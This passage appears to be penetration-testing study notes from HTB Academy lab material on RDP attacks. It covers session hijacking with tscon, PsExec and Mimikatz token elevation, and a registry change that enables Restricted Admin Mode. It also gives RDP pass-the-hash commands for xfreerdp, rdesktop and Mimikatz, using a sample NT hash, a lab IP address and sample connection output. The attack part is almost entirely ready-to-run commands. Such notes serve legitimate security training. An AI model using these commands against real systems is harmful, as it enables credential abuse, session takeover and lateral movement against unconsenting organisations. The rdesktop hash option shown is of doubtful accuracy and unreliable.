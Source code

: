 #### Alternative Hijacking Methods
```cmd
# Direct tscon usage (requires SYSTEM privileges)
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

# Using PsExec for SYSTEM privileges
psexec -s cmd.exe
tscon 2 /dest:rdp-tcp#13

# Using Mimikatz for privilege escalation
privilege::debug
token::elevate
```

### 2. RDP Pass-the-Hash (PtH) Attack

#### Attack Prerequisites & Limitations
```
⚠️  Restricted Admin Mode must be enabled
⚠️  Only works with NT hashes (not NTLMv2)
⚠️  Target must allow RDP connections
⚠️  User must have RDP rights on target
```

#### Enable Restricted Admin Mode
```cmd
# HTB Academy registry modification
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# Verify registry key creation
reg query HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```

#### HTB Academy PtH Execution
```bash
# Pass-the-Hash with xfreerdp
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

# Expected connection output
[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

# Successful connection results in GUI access as target user
```

#### Alternative PtH Tools
```bash
# Using rdesktop with hash (if supported)
rdesktop -u lewen -p "" -d domain --hash 300FF5E89EF33F83A8146C10F5AB9BB9 192.168.220.152

# Using Mimikatz for PtH (Windows)
sekurlsa::pth /user:lewen /domain:corp /ntlm:300FF5E89EF33F83A8146C10F5AB9BB9 /run:"mstsc /v:192.168.220.152"
```

---